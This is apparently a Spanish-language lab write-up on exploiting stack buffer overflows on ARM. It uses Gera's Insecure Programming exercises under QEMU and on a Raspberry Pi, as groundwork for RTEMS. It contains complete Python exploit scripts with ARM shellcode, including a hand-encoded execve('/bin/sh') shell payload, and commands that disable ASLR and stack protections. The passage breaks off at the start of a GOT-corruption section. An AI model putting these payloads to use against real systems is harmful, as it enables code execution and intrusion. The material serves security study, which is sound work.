

Explotación
===========

Se estudió como explotar RTEMS en ARM. Primero estudiando ARM en casos simples (emulado y en linux) para luego pasar a RTEMS particularmente (sobre ARM). Dado que no se tienen casos de uso real en RTEMS se simularon *buffer overflows* (desbordamiento de buffer) simples.

ARM
===

Primero se hace una breve introducción a ARM desde el punto de vista de sus diferencias con x86, principalmente orientado a las cuestiones de seguridad y explotación, y luego se realizan ejercicios de explotación básicos.

Introducción a ARM
==================

El objetivo de este documento es mencionar brevemente los puntos de ARM que resultaron relevantes durante este proyecto, no pretende ser una introducción completa a la arquitectura, simplemente mencionar similitudes y diferencias observadas entre x86 y ARM (particularmente orientado a su uso en RTEMS sobre la Raspberry Pi).

Como primera introducción se recomiendan los siguientes tutoriales:

* http://www.davespace.co.uk/arm/introduction-to-arm/

* http://www.exploit-db.com/wp-content/themes/exploit/docs/16151.pdf

La documentación más completa se encuentra en el sitio de ARM, principalmente, el Manual de Referencia de la Arquitectura:

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.subset.architecture.reference/index.html

y el Manual de Referencia Técnina de ARM1176JZF-S (versión particular del procesador de la RPi):

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0301h/index.html

Caracterísiticas Generales
--------------------------

Es un procesador tipo RISC de 32 bits, todo el acceso a memoria se hace mediante operaciones *Load* y *Store* (cargar y guardar) a registros. Tiene un modo que permite codificar las instrucciones más comunes en 16 bits (*Thumb Mode*) en el que por ahora no se va a profundizar.

El procesador de la RPi (ARM1176JZF-S) pertenece a la familia de ARM11, y tiene el set de instrucciones ARMv6.

Tiene 16 registros de propósito general nombrados ``R0``-``R15`` (más un *program status register* ``PSR``, registro de estado del programa), aunque los últimos 3 suelen tener un uso más específico:

* ``R13``: ``SP``, *Stack Pointer* (puntero a la pila).
* ``R14``: ``LR``, *Link Register* (registro de vinculación).
* ``R15``: ``PC``, *Program Counter* (IP en x86, puntero al programa).

De estos 3 el ``LR`` es el único registro "nuevo", desde el punto de vista de x86. Se usa para guardar la dirección de retorno de la función llamada. De todas formas, todos los registros tienen el mismo estatus y pueden ser utilizados en cualquier instrucción (con algunas excepciones particulares).

Algunas nomenclaturas que cambian son:

* *CALL/JUMP*: *BRANCH*
* *Program Counter*: *Instruction Register*

La pila (para Linux y RTEMS, al menos) se maneja igual que en x86, ``SP`` apunta al último valor apilado en el stack, cuya dirección (almacenada en ``SP``) se decrementa en cada ``push``. En la terminología de ARM es "*Full Descending*".

La mayoría de las instrucciones pueden ser codificadas como condicionales (similar a los saltos condicionales de x86). Muchas veces se observa que para un *if* de pocas instrucciones, el compilador no lo codifica como un bloque de codigo que es "saltado" según alguna condición (con un salto condicional). En vez de eso se codifica cada instrucción como condicional (según la misma condición del *if*), de modo de ejecutarse entero (todas las instrucciones) si se cumple dicha condición (de no cumplirse estas instrucciones son interpretadas como *NOPs* por el procesador).

Se trabaja con *Little-endian* (LE) por defecto, pero hay un flag en el PSR que permite cambiarlo a *Big-endian* durante la ejecución de un programa, de todas formas RTEMS trabaja siempre en LE.

``PC`` (*Program Counter*), al ser un registro de propósito general, se lo puede manipular de la misma manera que al resto (con excepciones puntuales en algunas funciones), y la mayoría de las referencias a direcciones (de memoria u otras funciones) dentro del código se realizan relativas a ``PC`` (*PC-relative*, similar a x86 en 64 bits), haciendo que gran parte del código generado sea independiente de su posición (PIC).

Llamado a funciones
--------------------

En ARM se utiliza la instrucción ``branch`` (similar a ``jmp`` de x86). Esta guarda la dirección de retorno en el regirstro ``LR`` y luego salta a la función indicada. Esta una diferencia importante respecto de la arquitectura x86 la cuál utiliza la instrucción ``call`` que apila la dirección de retorno en la pila previamente a salta a la función llamada.

De todas formas las llamadas a funciones en la práctica terminan siendo muy similares a x86, porque si la primera función llamada, que tiene su dirección de retorno en el ``LR``, debe llamar a su vez a otra función (que es lo más común excepto para una función "hoja"), debe preservar el valor de ``LR`` (su dir. de retorno) antes de hacer ``branch``. Esto lo hace guardando el valor de ``LR`` en la pila (en el preludio de la función). Por lo tanto, en la práctica, mientras que en x86 al inicio de la función se encontraba la dirección de retorno más otros registros en la pila (para preservarlos), en ARM, se hará un ``push`` de todo junto, es decir, de ``LR`` y el resto de los registros que sean necesarios preservar, quedando una estructura muy similar de la pila de x86.

Para retornar de una función, en lugar de la instrucción ``ret`` de x86 que hace ``pop`` de la instrucción de retorno y salta a ésta, en ARM se hace ``branch`` a la dirección contenida en el registro ``LR``. En caso de que la función en cuesión llamara a otra durante su ejecución, el valor de ``LR`` fue apilado oportunamente, por lo que debe realizar un ``pop`` a este registro antes de hacer el ``branch`` correspondiente. Dado que ``PC`` es un registro como cualquier otro, a veces, cuando está haciendo ``pop`` de otros registros preservados, realiza ``pop`` de ``LR`` directamente a ``PC`` saltando efectivamente a la dirección de retorno (en vez de hacer ``pop`` a ``LR`` y luego un ``branch`` con el valor de ``LR``).

ARM permite hacer *Load/Store* de múltiples valores consecutivos en memoria. Esto se traduce a que se pueden hacer ``push``/``pop`` de varios registros juntos (puede observarse muchas veces al inicio y fin de una función instrucciones como ``push {r7, lr}`` y ``pop {r7, pc}``, respectivamente).

Memoria
-------

Tiene una MMU pero no está habilitada en RTEMS por lo que no se discuté esto aquí. RTEMS usa *Flat Memory Model* donde las direcciones virtuales son las mismas que las físicas y toda la memoria es accesible desde cualquier punto de ejecución.

Excepciones
-----------

Además de la documentación de ARM, un buen material introductorio es el siguiente tutorial:

* http://osnet.cs.nchu.edu.tw/powpoint/Embedded94_1/Chapter%207%20ARM%20Exceptions.pdf

En ARM hay una tabla con los vectores de interrupción (EVT, *Exception Vector Table*), donde se asignan 4 bytes por interrupción. Cada entrada representa la dirección de la rutina de atención a la cual el procesador salta según el tipo de interrupción generada (ej: *Reset*, IRQ, instrucción indefinida, etc).

El punto de interés es que la EVT se encuentra en la dirección de memoria 0x0 (aunque hay una opción para ubicarla en 0xFFFF0000) por lo que puede ser vulnerable a accesos de memoria (lectura/escritura) con punteros de valor *NULL* (0x0).

ABI
---

Según la wiki de RTEMS:

* http://www.rtems.org/wiki/index.php/ARM-EABI

soporta la EABI de ARMv7-M:

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ihi0042e/index.html

Lo más importante para resaltar de la ABI es que a diferencia de x86 (32 bits) donde los parámetros se pasan por la pila, en ARM se pasan por los registros ``R0``-``R3``.

Syscalls
--------

Se implementan mediante la instrucción *SVC* (Supervisor Calls, antiguamente llamada SWI), similar al *INT* de x86. Sin embargo, en RTEMS todas las funciones (o servicios del sistema) se llaman mediante ``branch`` normales, es decir, sin invocar las SVC pues todo se ejecuta con el mayor nivel de permisos.

Constantes
----------

Como las instrucciones tienen un largo máximo de 32 bits no puede codificarse una función que manipule constantes de ese tamaño (que es el mismo de los registros también) dado que no dejaría lugar a la codificación de la instrucción misma. Esto se traduce, por ejemplo, a que no puede cargarse un número de 32 bits en un registro en una sola instrucción ``mov``.

Para solventar esto, el compilador (al menos lo observado con GCC) guarda estas constantes en la sección de solo lectura del programa y las carga al registro deseado con instrucciones de acceso a memoria. Las direcciones de estas constantes generalmente están codificadas al final de cada función. Por ejemplo, es común ver al final de una función una serie de constantes (que apuntan siempre al mismo rango de memoria). Estas se utilizan mediante instrucciones de carga de memoria, donde la dirección se indica relativa a ``PC``. Es decir, el compilador en una instruccion de *LOAD*, pide cargar en un registro la constante que está en memoria, cuya dirección se encuentra un cierto delta por debajo de la instrucción actualmente ejecutada (PC + delta).

Explotación en ARM
==================

Este documento detalla las primeras experiencias de explotación sobre ARM, usando ejercicios en C sacados de:

* http://community.coresecurity.com/~gera/InsecureProgramming/

Esta documentación fue generada antes de comenzar a experimentar sobre RTEMS. Aunque puede ser útil como documento introductorio, si se lo estudia como preparativo para RTEMS, hay que tener en cuenta que muchos de los mecanismos encontrados aquí (Linux) varían con respecto a la implementación de RTEMS. Se recomienda la lectura superficial, sin invertir mucho tiempo en los detalles que tendrán implementaciones distinas al estudiar ARM sobre RTEMS.

Las diferencias más importantes en RTEMS con respecto a lo documentado aquí son:

* Todo el código se compila en forma estática, no hay carga dinámica de funciones, por lo que no se implementan las tablas PLT/GOT.

* RTEMS no tiene llamadas a sistema por interrupciones (*syscalls*), toda la funcionalidad está implementada como funciones normales de C que se llaman con la interfaz estándar, independientemente de que sean funciones de usuario o del sistema operativo. Por esto no se observan instrucciones de llamadas a supervisor (SVC).

* Hasta donde se observó no se usa el modo *Thumb* de ARM (aunque está disponible en el micro de la RPi), todas las instrucciones son en 32 bits (no se ven instrucciones con el sufijo ".w" como se muestran aquí).

* No se observó que se utilice el *Frame Pointer* (FP). Todas las referencias a las variables son con respecto de SP, los preludios de las funciones varían significativamente con los de Linux.

Ambiente de desarrollo
----------------------

Para correr ARM en x86 se utiliza un compilador cruzado (*cross compiler*) de GCC, que aplica la EABI.

.. code-block:: bash

  sudo apt-get install gcc-arm-linux-gnueabi

La compilación se realiza mediante GCC y se agrega el parámetro ``-g3`` para habilitar la depuración, y los mismos parámetros utilizados en los ejercicios originales de los ABO (desbordamientos de *buffer* avanzados) que deshabilitan las protecciones comunes:

.. code-block:: bash

  arm-linux-gnueabi-gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro    hello.c  -o hello

Para correr el ejecutable se utiliza QEMU en modo de Usuario. Esto significa que a diferencia de los tests de RTEMS, no se levanta un sistema entero con el OS correspondiente, sino que se hace una traducción dinámica de las instrucciones ARM a x86 corriendo la aplicación como una más.

Se baja y compila el paquete de QEMU en modo Usuario, según el tutorial en:

http://xecdesign.com/compiling-qemu/

Para ejecutarlo hay que indicarle donde se encuentran las librerías de ARM, instaladas ya con el paquete ``gcc-arm-linux-gnueabi``, con el parámetro ``-L /usr/arm-linux-gnueabi/``. Además, para habilitar la depuración remota se abre un puerto con ``-g 1111``, el programa queda detenido al inicio hasta que se conecte GDB.

.. code-block:: bash

  qemu-arm -g 1111 -L /usr/arm-linux-gnueabi/ ./hello

Para conectarse con GDB hay que instalar el paquete que reconoce la arquitectura ARM:

.. code-block:: bash

  sudo apt-get install gdb-multiarch
  gdb-multiarch ./hello
  target remote :1111

Primer tutorial
---------------

El primer tutorial, antes de los ABOs, que se usó para trabajar es este:

http://www.exploit-db.com/wp-content/themes/exploit/docs/16151.pdf

Presenta el siguiente *buffer overflow*:

.. code-block:: c

  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>

  void dounuts() {
    puts("Donuts");
    exit(0);
  }

  void vuln(char*arg) {
    char buff[10];
    strcpy(buff, arg);
  }

  int main(int argc, char **argv) {
    vuln(argv[1]);
    return 0;
  }

La idea es abusar de la función ``strcpy()`` para copiar de más y pisar la dirección de retorno de ``vuln()`` y, en vez de volver a ``main()``, llamar a ``donuts()``.

El código de ensamblador de este programa (que puede ser visto con otra herramienta del paquete *gcc-arm*, ``arm-linux-gnueabi-objdump``) es:

.. code-block:: objdump

  0x83e0 <vuln>           push   {r7, lr}
  0x83e2 <vuln+2>         sub    sp, #24
  0x83e4 <vuln+4>         add    r7, sp, #0
  0x83e6 <vuln+6>         str    r0, [r7, #4]
  0x83e8 <vuln+8>         ldr    r3, [r7, #4]
  0x83ea <vuln+10>        add.w  r2, r7, #12
  0x83ee <vuln+14>        mov    r0, r2
  0x83f0 <vuln+16>        mov    r1, r3
  0x83f2 <vuln+18>        blx    0x8304 <strcpy>
  0x83f6 <vuln+22>        add.w  r7, r7, #24
  0x83fa <vuln+26>        mov    sp, r7
  0x83fc <vuln+28>        pop    {r7, pc}

``push`` pone en la pila todos los registros de la lista entre llaves. Algo importante para notar es que el orden en el que se empuja en la pila no es el de la lista, sino según el orden numérico de los registros (``LR`` es el ``R14``), con el registro de menor número en la dirección de memoria más baja.

Básicamente, hay dos sets de instrucciones, ARM de 32 bits y *Thumb* de 16 bits. Se puede observar por las direcciones de las instrucciones del ejemplo, que ocupan 16 bits, que estamos en el modo *Thumb* (notar que el modo de ejecución está codificado en un bit del registro de estado). Las únicas excepciones son las instrucciones ``add.w`` que ocupan 32 bits. El sufijo ``.w`` indica codificar la instrucción en 32 bits incluso si esta puede ser codificada en 16 (análogamente ``.n`` indica codificar en 16 bits). Esta variación es posible si se usa el set de instrucciones *Thumb-2*, que permite mezclar instrucciones de 32 y 16 bits.

``R7`` posiblemente esté funcionando, en este caso, como FP aunque tiene la misma dirección del SP. Los parámetros en ARM se pasan por los primeros 4 registros ``R0``-``R3``, en el mismo orden que los parámetros de C. Para el caso de ``strcpy``, ``R0`` tiene la dirección del *buffer* ``buff`` y ``R1`` tiene la dirección fuente de donde se va a copiar, ``arg``.

Como a su vez ``vuln(arg)`` ya tiene en ``R0`` su parámetro ``arg``, el mismo que utilizará ``strcpy``, el valor de ``R0`` se pasa a ``R1``. Esto no se ve claramente porque ``R0`` es primero almacenado en la pila: ``str  r0, [r7, #4]``, recuperado en ``R3`` mediante ``ldr  r3, [r7, #4]`` y de ``R3`` pasado finalmente a ``R1`` por ``mov  r1, r3``.

El *buffer* está almacenado en la pila, y su dirección pasada a ``R0`` por ``add.w  r2, r7, #12`` y  ``mov  r0, r2``.

El llamado a ``strcpy`` se hace mediante la instrucción ``blx``. La ``x`` indica que se cambiará el set de instrucciones utilizado, de *Thumb* a ARM (dado que, según se entiende, la librería de C de este paquete está compilada en ARM). La función ``strcpy`` utilza la PLT y la GOT como en un entorno de linux común. La diferencia más importante es que se utiliza un registro especial para realizar la indireccón, el registro IP (``R12``) denominado por ARM *intra-procedure call scratch register*.

Al retornar se libera el espacio reservado de la pila y se recuperan los registros guardados con ``push``. A ``PC`` se lo trata como un registro común, así que el valor de retorno que se habia apilado del ``LR`` ahora se pasa al ``PC`` como si fuera un ``mov`` común y la función retorna al ``main``.

``push`` y ``pop`` son sinónimos de las instrucciones de almacenamiento múltiples ``stmdb`` y ``ldm`` (``ldmia``), respectivamente. Se comportan igual que en x86. El sufijo db significa *Decrease Before* (decrementar antes), decrementa el valor de ``SP`` antes de guardar el dato en esa posición. El sufijo ``ia`` del ``pop`` significa *Incremente After* (incrementar luego), primero recupera el dato apuntado por ``SP`` y recién después aumenta su valor.

Como se ve con la instrucción ``blx``, el set de instrucciones (IS) puede ser cambiado entre llamadas de una función a otra (modificando el *flag* correspondiente en el registro de estado). La forma que tiene el sistema para saber, al retornar, si debe cambiar nuevamente el IS, es indicándolo en el bit menos significativo (LSB) de la dirección de retorno. Dado que la mínima instrucción tiene un largo de 16 bits, y todas las direcciones de instrucciones tienen que estar alineadas a ese tamaño (o sea, 2 bytes), este bit (LSB) es redundante. Si el bit está seteado cambia a *Thumb*, si esta en cero cambia a ARM.

Esto significa que al pisar una dirección de retorno para ganar el control de la ejecución hay que tener en cuenta este bit. A veces una dirección de retorno parece extrañamente ser un número impar pero es por este *flag*. Si el *flag* no coincide con el IS al que se esta retornando va a causar un error.

ARM admite tanto *Little-endian* como *Big-endian*, siendo el primero la codificación por defecto y no se observo en ningún lado que esto cambie, por lo que por ahora se asume que es siempre *Little-endian* como en x86.

*Buffer Overflow*
-----------------

Normalmente la dirección de retorno se guarda en ``LR``, pero al empezar a llamar a subrutinas, para no pisar el valor de este registro, se lo guarda en la pila antes de la próxima llamada. Esto hace que en términos prácticos la explotación sea la misma que en Linux para x86.

Antes de llamar a ``strcpy`` la pila (dibujada con las direcciones crecientes hacia arriba y la pila aumentando hacia abajo) es:

Como se observa en el diagrama de la pila, la dirección del *buffer* (originalmente de 10 bytes) esta a 4 **words** (palabra, 1 word = 32 bits = 4 bytes) de distancia. Esto quiere decir que debe haber 16 bytes de *padding* y los próximos 4 bytes escritos van a sobreescribir la dirección de retorno de la función ``vuln`` (o sea, el valor anterior del ``LR``, almacenado en la pila, dado que se iba a llamar a ``strcpy``).

Sabiendo la dirección de la función ``donuts``, 0x000083c8, almacenada en memoria como ``c8 83 00 00`` (*Little-endian*), debían escribirse 20 bytes, 16 de *padding* y los últimos 4 con esta dirección de retorno para ganar el control de la ejecución. Al estar ejecutando en *Thumb*, la dirección de retorno debe tener el LSB seteado, por lo que en realidad, la dirección que hay que sobreescribir es ``0x83c9``, y no ``0x83c8`` (como sería en x86).

Esto se pudo comprobar con GDB, ejecutando el programa con el siguiente argumento:

.. code-block:: bash

    qemu-arm -g 1111 -L /usr/arm-linux-gnueabi/ ./hello \
        `python -c "print('a' * 16 + chr(0xc9) + chr(0x83) )"`

*Payloads*
----------

A continuación se documenta la codificación de *payloads*, código ensamblador que se inyecta en la máquina atacada mediante alguna vulnerabilidad explotada, que tiene generalmente como objetivo instanciar una consola de comando impersonando al usuario *root*. Se utilizó el primer ABO para probar un *payload* básico de ARM, obtenido del tutorial:

* http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/

El ABO es simplemente un *buffer overflow* donde se debe cargar el *payload* en el *buffer* y hacer que la función retorne dentro de este:

.. code-block:: c

  /* abo1.c                                       *
   * specially crafted to feed your brain by gera */

  /* Dumb example to let you get introduced...    */

  int main(int argv,char **argc) {
    char buf[256];

    strcpy(buf,argc[1]);
  }

Analizando el código ensamblador de ARM se puede observar que el *buffer* esta justo antes de los registros apilado ``R7`` y ``LR``:

.. code-block:: objdump

  0x836c <main>           push   {r7, lr}
  0x836e <main+2>         sub    sp, #264        ; 0x108
  0x8370 <main+4>         add    r7, sp, #0
  0x8372 <main+6>         add.w  r3, r7, #4
  0x8376 <main+10>        str    r0, [r3, #0]
  0x8378 <main+12>        mov    r3, r7
  0x837a <main+14>        str    r1, [r3, #0]
  0x837c <main+16>        mov    r3, r7
  0x837e <main+18>        ldr    r3, [r3, #0]
  0x8380 <main+20>        add.w  r3, r3, #4
  0x8384 <main+24>        ldr    r3, [r3, #0]
  0x8386 <main+26>        add.w  r2, r7, #8
  0x838a <main+30>        mov    r0, r2
  0x838c <main+32>        mov    r1, r3
  0x838e <main+34>        blx    0x82c0 <strcpy>
  0x8392 <main+38>        mov    r0, r3
  0x8394 <main+40>        add.w  r7, r7, #264    ; 0x108
  0x8398 <main+44>        mov    sp, r7
  0x839a <main+46>        pop    {r7, pc}

Igual que en el ejemplo anterior ``R7`` está antes que ``LR``, por lo que habrá que sobreescribir 260 bytes de relleno (256 del *buffer* y 4 de ``R7``) antes de llegar a la dirección de retorno almacenada en ``LR``.

Dado que esta versión de ARM no tiene ASLR la dirección en la pila del *buffer* (donde se va a redirigir la ejecución del programa) es siempre la misma y se puede averiguar con gdb:

.. code-block:: bash

  (gdb) p &buf
  $3 = (char (*)[256]) 0xf6ffeff0

Al ser *Little-endian* la dirección se sobreescribirá como: ``f0 ef ff f6``. Por simplicidad se utiliza un código de python que llama a QEMU para cargar el programa y le pasa, además de los parámetros vistos antes, el *payload* como argumento de la función ``main``.

.. code-block:: python

  #! /usr/bin/env python
  import subprocess

  # Shellcode sacado de: http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/
  sc = "\x01\x60\x8f\xe2\x16\xff\x2f\xe1\x10\x22\x79\x46\x0e\x31\x01\x20\x04\x27
        \x01\xdf\x24\x1b\x20\x1c\x01\x27\x01\xdf\x73\x68\x65\x6c\x6c\x2d\x73\x74
        \x6f\x72\x6d\x2e\x6f\x72\x67\x0a"

  # Padding para ocupar todo el *buffer* de 256 bytes y R7 (otros 4 bytes mas)
  # Luego se agrega la direccion de retorno al comienzo del *buffer* (escrito al
  # reves por ser little endian)
  sc += (260 - len(sc)) * 'a' + '\xf0\xef\xff\xf6'

  # Para debuggear agregar los flags: '-g', '1111',
  process = subprocess.Popen(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './abo.out', sc])

  process.wait()
  exitCode = process.returncode
  print("Termino con: " + str(exitCode))

El *payload* básicamente llama a ``write`` para escribir una cadena ("shell-storm.org") y luego a ``exit`` para terminar la ejecución del programa, si funciona correctamente se verá:

.. code-block:: bash

  stic@stic-laptop: python abo1.py
  shell-storm.org
  Termino con: 0

Lo más importante para comentar del *payload* es que igual que en x86, ``write()`` y ``exit()`` se llaman utilizando llamadas al sistema con la instrucción ``SVC``, pasando los argumentos por los registros ``R0``-``R3``.

Para evitar bytes nulos en el *payload* se aprovecha del set de instrucciones *Thumb*, mucho más denso, que tiene las instrucciones necesarias para llamar a los syscalls pero al ser más comprimido se evitan muchos ceros. Por esa misma razón el argumento de la instrucción ``SVC``, una constante que es ignorada en este caso, se pasa del tradicional valor 0 a 1: ``SVC 1``, que tiene el mismo efecto. **Por esta razón es necesario compilar el QEMU desde cero y no bajar el paquete de Ubuntu, que falla con ``SVC 1``**.

Otro punto interesante es que para pasar a *Thumb Mode*, hace, dentro del mismo *payload*, un salto a la próxima instrucción pero con LSB puesto en 1 para cambiar de modo ARM a *Thumb*.

Ejecución de una Consola mediante ``execve``
--------------------------------------------

El mismo tutorial del ejemplo anterior incluía un *payload* para levantar una consola mediante la función ``execve``. De hecho, en el mismo sitio de *Shell-Storm* hay una base de datos con *payloads* para distintas arquitecturas, incluyendo ARM:

* http://www.shell-storm.org/shellcode/

Al tratar de reproducir directamente el *payload* del ejemplo en QEMU (nuevamente con el primer ABO) la llamada a ``execve`` fallaba (por distintos factores de implementación que se discutirán luego), por lo que se realizaron varias modificaciones.

Se partió de otro *payload* similar al del ejemplo (elegido principalmente porque estaba mejor comentado):

* http://www.shell-storm.org/shellcode/files/shellcode-855.php

Al que se le fue incorporando código del *payload* del ejemplo original, que se puede encontrar también en la base de datos de *payloads* del sitio:

* http://www.shell-storm.org/shellcode/files/shellcode-665.php

De todas formas el *payload* final sufrió varias modificaciones y perdió mucha semejanza con el *payload* original del que se partió (listado más que nada como una referencia).

La función ``execve`` lleva tres argumentos:

* *String* (cadena de caracteres) con el nombre del programa.
* Vector de strings con los parámetros del programa.
* Vector de strings con las variables de entorno.

Para levantar un shell sencillo simplemente hay que tener un *string* ``/bin/sh``, y construir un *array* con un solo elemento que apunte al mismo *string*, ya que el primer argumento del programa debe ser el propio nombre. El vector de las variables de entorno puede ser nulo.

El mayor inconveniente es que sin introducir bytes nulos en el *payload* es necesario poner en cero distintas partes de memoria. El *string* ``/bin/sh`` debe terminar con un cero y el vector de *strings* con los parámetros debe tener su segundo elemento también en cero, indicando que no hay más elementos además del nombre del programa. El vector con las variables de entorno se pasa por registro (``R2``) así que solo hay que poner el registro en cero.

Aunque se podía reformatear el exploit para que el *string* estuviera al final y coincidiera con el ``\0`` del *payload*, sigue faltando poner el segundo elemento del vector de parámetros en cero (aunque ese vector se almacena en la pila no se puede garantizar de que tenga un cero desde antes). Este segundo requerimiento es restrictivo, al menos en la implementación del QEMU, haciendo que la llamada a ``execve`` falle de no cumplirse, y es un detalle que no se vio que se solucionara en ninguno de los *payloads* de ARM para ``execve`` (lo cual es bastante llamativo y podría indicar que se está pasando por alto algún otro detalle importante).

Para solucionar esto se codificó manualmente la instrucción ``STR`` del set de instrucciones de *Thumb*, que permite guardar un registro (en este caso puesto a cero) en posiciones de memoria indicadas por otro registro (como el SP por ejemplo).

A continuación se muestra el código de python con el *payload*, los puntos más importantes a tener en cuenta son:

* En este caso se utilizó *xor* (instrucción ``eors``) para poner los registros en cero, en vez de ``subs`` del *payload* anterior, ambas instrucciones no contienen bytes nulos.

* ``R0`` (primer argumento de ``execve``) apunta al string (al final del *payload*) con la dirección de la consola, esta se obtiene a partir del PC y el delta depende de cuántas instrucciones haya en el medio. De modificarse el *payload* hay que modificar el delta.

* La dirección de la consola se escribe como ``//bin/sh`` con dos barras al principio (la segunda es ignorada y no tiene efecto) para que entre exactamente en dos *words* (8 bytes).

* ``R1`` (segundo argumento) inicialmente se pone en cero para usarlo con el ``STR`` y poner bytes nulos al final del *string* y en la segunda posición del vector.

* El vector, almacenado en la pila, comienza en ``SP + 4`` (dirección luego almacenada en ``R1``), en vez de ``SP + 0``, para evitar instrucciones con bytes nulos (nuevamente, una suposición).

* Como se dijo antes, el argumento de *SVC* es ignorado, el número de la llamada a sistema se almacena en ``R7``.

* La función ``execve`` de tener éxito no retorna, por lo que no es necesario agregar un ``exit`` luego.

.. code-block:: python

  #! /usr/bin/env python
  import subprocess

  # Payload
  sc =   ( # los parentesis me permiten poner comentarios luego del '+'

          # Se pasa a Thumb Mode
          "\x01\x60\x8f\xe2"    +         # add     r6, pc, #1
          "\x16\xff\x2f\xe1"    +         # add     bx      r6

          # Se setea R0 con la direccion del string del shell
          "\x40\x40"            +         # eors    r0, r0
          "\x78\x44"            +         # add     r0, pc
          "\x10\x30"            +         # adds    r0, #16

          # WARNING!!! El offset de la instruccion anterior (adds) depende de
          # la cantidad de bytes de instrucciones que haya entre este punto y
          # el string del shell (offset codificado en el primer byte de la
          # instruccion), y debe ajustarse de modificarse el payload mas alla
          # de este punto.

          # Se guarda la dir del string en la primera posicion del vector de
          # parametros (que comienza en SP + 4)
          "\x01\x90"            +         # str     r0, [sp, #4]

          # Se usa R1 para poner bytes nulos al final del string (apuntado por
          # R0 y de largo 8 bytes) y en el segundo elemento del vec de
          # parametros (SP + 8)
          "\x49\x40"            +         # eors    r1, r1
          "\x81\x60"            +         # str     r1, [r0, #8]
          "\x02\x91"            +         # str     r1, [sp, #8]

          # R1 queda apuntando al vector de parametros
          "\x01\xa9"            +         # add     r1, sp, #4

          # R2 (vec de var de entorno) no se usa
          "\x52\x40"            +         # eors    r2, r2

          # Se pasa el numero de syscal (11) por R7
          "\x0b\x27"            +         # movs    r7, #11
          "\x01\xdf"            +         # svc     1

          "\x2f\x2f\x62\x69\x6e\x2f\x73\x68"          # .ascii  "//bin/sh"
  );

  # Padding para ocupar todo el *buffer* de 256 bytes y R7 (otros 4 bytes mas)
  # Luego se agrega la direccion de retorno al comienzo del *buffer* (escrito
  # al reves por ser little endian)
  sc += (260 - len(sc)) * 'a' + '\xf0\xef\xff\xf6'

  # Para debuggear agregar los flags: '-g', '1111',
  process = subprocess.Popen(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './abo.out', sc])

  process.wait()
  exitCode = process.returncode
  print("Termino con: " + str(exitCode))

Raspberry Pi
------------

Se instaló Raspbian en una Raspberry Pi modelo B (512 RAM), que utiliza un micro ARM1176JZF-S. Este micro utiliza tanto ARM 32 bits como *Thumb* 16 bits (no se vio que soporte *Thumb 2* con el híbrido de 32/16 bits).

Como primer prueba se compiló el primer ABO para ver qué código generaba. El procedimiento es el mismo de antes pero ahora se utiliza las herramientas nativas de GCC, no fue necesario instalar ningún paquete extra.

.. code-block:: bash

    gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro \
        abo1.c -o abo1.out

El ASM generado fue:

.. code-block:: objdump

    0x83cc <main>                   push   {r11, lr}
    0x83d0 <main+4>                 add    r11, sp, #4
    0x83d4 <main+8>                 sub    sp, sp, #264    ; 0x108
    0x83d8 <main+12>                str    r0, [r11, #-264]        ; 0x108
    0x83dc <main+16>                str    r1, [r11, #-268]        ; 0x10c
    0x83e0 <main+20>                ldr    r3, [r11, #-268]        ; 0x10c
    0x83e4 <main+24>                add    r3, r3, #4
    0x83e8 <main+28>                ldr    r3, [r3]
    0x83ec <main+32>                sub    r2, r11, #260   ; 0x104
    0x83f0 <main+36>                mov    r0, r2
    0x83f4 <main+40>                mov    r1, r3
    0x83f8 <main+44>                bl     0x82f0 <strcpy>
    0x83fc <main+48>                mov    r0, r3
    0x8400 <main+52>                sub    sp, r11, #4
    0x8404 <main+56>                pop    {r11, pc}

El código anterior es el mostrado por GDB. Una de la cosas más importantes para notar es que todo está compilado en instrucciones de 32 bits (ARM). El FP es ahora el registro ``R11``, por estar en el estado ARM, mientras que en *Thumb Mode* el FP es ``R7``, según lo explicado en:

http://msdn.microsoft.com/en-us/library/ms253599(v=vs.80).aspx

El FP (``R11``) esta vez apunta a lo esperado, que es el SP antes de reservar el espacio (decrementar el SP). En QEMU ``R7`` (FP) apuntaba al mismo valor del SP luego de ser decrementado. Esto también puede deberse a que se están direccionando valores superiores a 256 (8 bits) con respecto a ``R11`` lo cuál probablemente no fuera posible en *Thumb*.

Más allá de estos detalles el diagrama de la pila es el mismo. Está el *buffer* de 256 bytes, ``R11`` (4 bytes) y LR, por lo que sigue valiendo el exploit anterior que sobreescribía un relleno de 260 bytes, y luego pisaba la dirección de retorno con la del mismo *buffer*. Lo único que hay que modificar es la dirección del *buffer*.

En este SO (Raspbian, derivado de Debian) están habilitadas las protecciones básicas como ASLR, que se desactiva con:

.. code-block:: bash

    sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

y la protección contra ejecución de código en la pila, que se desactiva agregando el flag de compilación ``-z execstack`` en GCC, quedando:

.. code-block:: bash

    gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro -z execstack \
        abo1.c -o abo1.out

..note:: Por alguna razón, la función ``execve`` del *payload* no funciona cuando se lo ejecuta dentro de GDB, pero si funciona si el ABO se ejecuta directamente. En este caso se agrego un ``printf`` al ABO que mostraba la dirección del *buffer* para saber a dónde debía saltar el PC para ejecutar el *payload*.

Corrupción de la GOT
--------------------

Con el ABO 5 se prueba la corrupción de la GOT para tomar control de la ejecución.

.. code-block:: c

    /* abo5.c                                                  *
     * specially crafted to feed your brain by gera@core-sdi.com */

    /* You take the blue pill, you wake up in your bed,    *
     *     and you believe what you want to believe        *
     * You take the red pill,                              *
     *     and I'll show you how deep goes the rabbit hole */

    int main(int argv,char **argc) {
        char *pbuf=malloc(strlen(argc[2])+1);
        char buf[256];

